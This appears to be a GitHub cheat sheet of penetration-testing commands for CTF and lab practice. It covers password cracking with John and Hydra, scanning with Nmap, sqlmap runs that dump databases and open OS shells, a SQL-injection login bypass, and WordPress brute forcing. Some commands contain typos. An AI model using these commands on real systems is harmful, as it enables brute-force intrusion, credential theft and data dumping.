 # Gray-hat-Pratical

John 

Single crack mode: john --single --format=raw-sha1 crack.txt
Crack the password in file using wordlist: john --wordlist=/usr/share/john/password.lst --format=raw-sha1 crack.txt (Crack.txt here contains the hashes)

Cracking service credentials like ssh

1. First have to convert the hash file to JOHN format : ssh2john /home/text/.ssh/id_rsa > crack.txt (Now we need to crack this crack.txt file with John The Ripper)
2. john --wordlist=/usr/share/wordlists/rockyou.txt crack.txt

To crack ZIP

1. zip2john file.zip > crack.txt
2. john --wordlist=/usr/share/wordlists/rockyou.txt crack.txt



Notes:
–wordlist can be written as -w also

john crack.txt --wordlist=rockyou.txt --format=Raw-SHA256

---------------------------------------------------------------------------------------------------------------

Hydra

FOR FTP

If username is already given : hydra -l nonanik -P -P /usr/share/wordlists/rockyou.txt 192.168.1.101 ftp

If password is given and needs to find username = hydra -L user.txt -p 123 192.168.1.101 ftp

If both username and password is not given : hydra -L user.txt -P /usr/share/wordlists/rockyou.txt 192.168.1.101 ftp

Reference : https://www.hackingarticles.in/comprehensive-guide-on-hydra-a-brute-forcing-tool/

FOR SSH

hydra -L /usr/share/wordlists.rockyou.txt -P /usr/share/wordlists/rockyou.txt 192.168.1.101 -t 4 ssh

FOR HTTP FORM

hydra -L [user] -P [password] [IP] http-post-form "/:usernam=^USER^ & password=^PASS^:F=incorrect" -V

--------------------------------------------------------------------------------------------------------

Nmap

nmap -sV -sC -oA nmap.txt 10.10.10.x
nmap -sC -sV -v -oN nmap.txt 10.10.10.x
nmap -sS -P0 -A -v 10.10.10.x
masscan -e tun0 -pi-65535 --rate=1000
nmap -sU -sV -A -T4 -v -oN udp.txt 10.10.10.x

---------------------------------------------------------------------------------------------------------------------------
SQL MAP

URL = http://testphp.vulnweb.com/artists.php?artist=1

Find DBs = sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --dbs --batch

Result is DB name acuart

Find Tables = sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart --table --batch

Result is table name users

Find columns = sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users --columns --batch

Dump table = sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart -T users --dump --batch

Dump the DB = sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" -D acuart --dump-all --batch



Reference = https://www.hackingarticles.in/database-penetration-testing-using-sqlmap-part-1/

Using cookies
sqlmap -u "http://testphp.vulnweb.com/artists.php?artist=1" --cookie='JSESSIONID=09h76qoWC559GH1K7DSQHx' --random-agent --level=1 --risk=3 --dbs --batch

SQL Injection

in login page enter blah' or 1=1-- as username and click login without entering the password

OS Shell = sqlmap -u 'url' --dbms=mysql --os-shell
SQL Shell = sqlmap -u 'url' --dbms=mysql --sql-shell

---------------------------------------------------------------------------------------------------------------------------
TRY HACK ME ROOM 

Tools:-
https://lnkd.in/gvExZAk
https://lnkd.in/gFd7C-c
https://lnkd.in/guZsBtX
https://lnkd.in/gQDithi
https://lnkd.in/gSaZTcF
https://lnkd.in/gRFivzZ
https://lnkd.in/gnBZ8N2
https://lnkd.in/gXH5qDX
https://lnkd.in/g7x59qP

Challenge rooms:-
https://lnkd.in/gFYnaTz

(P.S Some of the rooms mentioned are available only in Pro account)

---------------------------------------------------------------------------------------------------------------------------

WPSCAN

User Enumeration : wpscan --url https://example/ --enumerate u
Bruteforce: wpscan --url https://example/ --passwords wordlist.txt --usernames nonanik


----------------------------------------------------------------------------------------------------------------------------

Wireshark

To find DOS (SYN and ACK) : tcp.flags.syn == 1  , tcp.flags.syn == 1 and tcp.flags.ack == 0
To find passwords : http.request.method == POST
More reference: https://www.comparitech.com/net-admin/wireshark-cheat-sheet/

To find DOS: Look for Red and Black packets with around 1-2 simple packets in between and then pick any packet and check the Source and Destination IP with port(As per question)

